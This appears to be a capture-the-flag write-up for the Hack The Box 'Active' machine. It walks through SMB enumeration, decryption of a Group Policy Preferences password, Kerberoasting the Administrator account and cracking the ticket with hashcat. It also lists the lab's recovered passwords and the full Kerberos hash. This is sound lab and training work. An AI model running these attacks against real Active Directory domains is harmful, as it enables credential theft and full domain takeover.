 

# Given

> Active is an easy to medium difficulty machine, which features two very prevalent techniques to gain privileges within an Active Directory environment.

## IP

10.10.10.100

# Steps

## Enumeration

I started off with `rustscan` to see what ports are open, and this gave me a decent idea of what services were running on this machine.

```bash
PORT      STATE SERVICE        REASON
53/tcp    open  domain         syn-ack ttl 64
88/tcp    open  kerberos-sec   syn-ack ttl 64
135/tcp   open  msrpc          syn-ack ttl 64
139/tcp   open  netbios-ssn    syn-ack ttl 64
389/tcp   open  ldap           syn-ack ttl 64
445/tcp   open  microsoft-ds   syn-ack ttl 64
464/tcp   open  kpasswd5       syn-ack ttl 64
593/tcp   open  http-rpc-epmap syn-ack ttl 64
636/tcp   open  ldapssl        syn-ack ttl 64
5722/tcp  open  msdfsr         syn-ack ttl 64
9389/tcp  open  adws           syn-ack ttl 64
49152/tcp open  unknown        syn-ack ttl 64
49153/tcp open  unknown        syn-ack ttl 64
49154/tcp open  unknown        syn-ack ttl 64
49155/tcp open  unknown        syn-ack ttl 64
49157/tcp open  unknown        syn-ack ttl 64
49158/tcp open  unknown        syn-ack ttl 64
49165/tcp open  unknown        syn-ack ttl 64
49166/tcp open  unknown        syn-ack ttl 64
49168/tcp open  unknown        syn-ack ttl 64
```

The `nmap` scan I had running in the background gave me some version info, filled in the blanks on some of the 'unknown' services.

```bash
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid:
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-07-20 03:21:27Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc         Microsoft Windows RPC
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49165/tcp open  msrpc         Microsoft Windows RPC
49166/tcp open  msrpc         Microsoft Windows RPC
49168/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows
```

Some key points about this machine are

- Target is running Windows Server 2008 R2 SP1
- Services running:
	- DNS (53)
	- Kerberos (88)
	- RPC (135)
	- SMB (139, 445)
	- LDAP (389, 3268)
	- HTTP (47001)
- Hostname is DC so this is possibly the Domain Controller.

SMB is the easiest one to test without credentials, so I checked for anonymous user access with `netexec`.

![](Assets/Pasted%20image%2020250720120505.png)

From that I saw a total of 7 shares, and 'Replication' could be read with out level of access. There were some things inside it, so I used netexec to download everything inside the share.

```bash
nxc smb 10.10.10.100 -u '' -p '' -M spider_plus -o DOWNLOAD_FLAG=True
```

I Managed to get 2 folders with some policy info, which made me think of Group Policy Preferences. 

![](Assets/Pasted%20image%2020250720122804.png)

## Cracking GPP

**GPP TLDR** 
Group Policy Preferences are config settings that domain admins can enforce on local admins/users across a domain. 
When a new Group Policy Preference (GPP) is created, an xml file is stored on the SYSVOL with its config data. However the password in that xml file (cpassword) is encrypted with MS AES. Not that cracking it is a problem after MS published the key. 

I looked at the `Groups.xml` file, and managed to get some creds that could be of use.

![](Assets/Pasted%20image%2020250720122548.png)

Since I knew we were dealing with a GPP hash, I used `gpp-decrypt` to crack the hash, and I ended up with the password to the user account `SVC_TGS`.

![](Assets/Pasted%20image%2020250720133446.png)

I got excited about this, and kept trying to get a shell into the system here. But things didn't work out. After a while, I went back to looking at what this account could access. SMB.

This time I could read more shares. I decided to look at the Users share first. That got me to this user's Desktop, where I found the user flag.

![](Assets/Pasted%20image%2020250720144629.png)

## Getting Admin

Since this is an AD environment, I cold check for kerberoastable accounts using `impacket-GetUserSPNs`. Alternatively I could use `netexec` to try and grab a kerberos hash from a roastable account. However, there's the clock skew to deal with here, and that could easily be countered with faketime in case ntpdate doesn't work.

I found out that the Administrator account was kerberoastable, and then I got the kerberos hash from it.

![](Assets/Pasted%20image%2020250720151013.png)

The next step when I had a hash on hand was to identify it. I decided to use hashcat, because I needed to get the correct mode for the job.

![](Assets/Pasted%20image%2020250720152019.png)

Ran`hashcat -m 13100 -a 0 -o admin.cracked.txt loot/admin.krb.hash /usr/share/wordlists/rockyou.txt`, which got me the Admin password.

![](Assets/Pasted%20image%2020250720152611.png)

Tested it out with smb, and it works. I can log in as Administrator.

![](Assets/Pasted%20image%2020250720153216.png)

Just like the last time, I used `smbclient` to interact with the SMB service. This time as the Administrator. The root flag was on the desktop.

```bash
┌──(root㉿docker-desktop)-[/host_data]
└─# smbclient \\\\10.10.10.100\\Users -U administrator
Password for [WORKGROUP\administrator]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Sat Jul 21 14:39:20 2018
  ..                                 DR        0  Sat Jul 21 14:39:20 2018
  Administrator                       D        0  Mon Jul 16 10:14:21 2018
  All Users                       DHSrn        0  Tue Jul 14 05:06:44 2009
  Default                           DHR        0  Tue Jul 14 06:38:21 2009
  Default User                    DHSrn        0  Tue Jul 14 05:06:44 2009
  desktop.ini                       AHS      174  Tue Jul 14 04:57:55 2009
  Public                             DR        0  Tue Jul 14 04:57:55 2009
  SVC_TGS                             D        0  Sat Jul 21 15:16:32 2018

5217023 blocks of size 4096. 278484 blocks available
```

# Creds

**Groups.xml**
`SVC_TGS : edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ : GPPstillStandingStrong2k18`

**Administrator kerberos hash**

```bash
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb\Administrator*$0a8b0f16cbd7dacd1dca8c5688e5b5be$71d27a8950563cd5a294b87ba1b6591c0afd5c
486a740fd3cad3892497312e7349693778bcd6b7d9a7c13cde751e07fc8917ab2e9acf0f2da90c6416f000f89475ba08a90c8604dae7f57bd8215275a5d76f185379dfb34b4189ae5cb8c96f870aef1679432bcf81cbfad9bc0ece74a07
f77461b94e254bb2c71d616bfa07cf4e59a8a04516e4c764fbfce60b13d6d9de36eee57805bfbb7cc0d9a291da54b02cbb6b4d4c1902b0d7418c44dc5559d927c25307850f91f1585a77befb2b06c7d654d5b19f61c491d64c037cd5e02
c404764e10f0f22d2b11f9952fee4f6263ea11b9c5a89b0051beba5ff69c2ae0eb215419f96a6b9440ebdfae217a8ca3373560ae639950c426323e642a39bacefb97f3733c26dedeb2ffb3d880d528aaca99b21094cd5847a6c72b85e95
6dcc04a1331f83cf0999b89ea804a8fe7caa0a34c2dd346aa266d63f48eb837d454609610643d76b6c9ad779f549fea08c16ba7f10d5a1a20389c836589403e5dcef09a0cd99cfaf62cb121962de037e535cc34ba9fd792d9e890b80db9
a733df10eb1f8265fb296caa57e971cf092fdf02bba7f90007e21d33f191429cac49fae1e43047505cfdd220da0698a42a531266400985f4d90543c1eec0ddd627f27425a40cfbba1633858e62b81260622c458c103a5fdcd78977f998f
7bca04cb7c1974505a17bf43b995658f22537061567e46c9d5b3e0234ae56bb55b7f89ca29fb11acdb15379315fff69f97dc2e479d77927c81403aa6080b261f60da4bca52bd60de56fe53a78a87f5c8306f26cda40dafbd01249433724
d1b496912f3ec47927b7c7af5bb6160b12483de4829c8d0dfc264d77a64d3ce6d2fe671866d8132058f3c8d2988c795936c27b839db7de3deae1ccfd917b6561e3d1be725e69d82afc631ae00661c9d3fbf9e8bcfa114d0634341e56cd0
f9ae1cb9a9479b742eb9309329e7ce0df037aca180be9498e367f6426a2f9143e9bf5c2d6572af2a6b1d4dc42c87d502927df97f4ef6c3d2a98327b3b124436ddb88d1db8c9c2ebcddc75444915f2d4a5c7b09dd779f09a32952b25702c
05db14ff79ac4ea6801a55243902b4789bd8d92bfb7a40732c9845865f13159ba1aa01d0dc7c2e05756b19e481897cc7ae77bec45cbd7d7795e4c55f22d53a972e80d92f02e60e72771bd492e67beaadf4d12b5c26acc4099e58dd598ff
4a0005fea8668e658ef4883345458ee433a69b8746a96216cc490ef3626
```

**Administrator Password**
`Ticketmaster1968`

# Proof

![](Assets/Pasted%20image%2020250720144918.png)

![](Assets/Pasted%20image%2020250720153541.png)

# References

https://pentestlab.blog/2017/03/20/group-policy-preferences/

https://www.thehacker.recipes/ad/movement/credentials/dumping/group-policies-preferences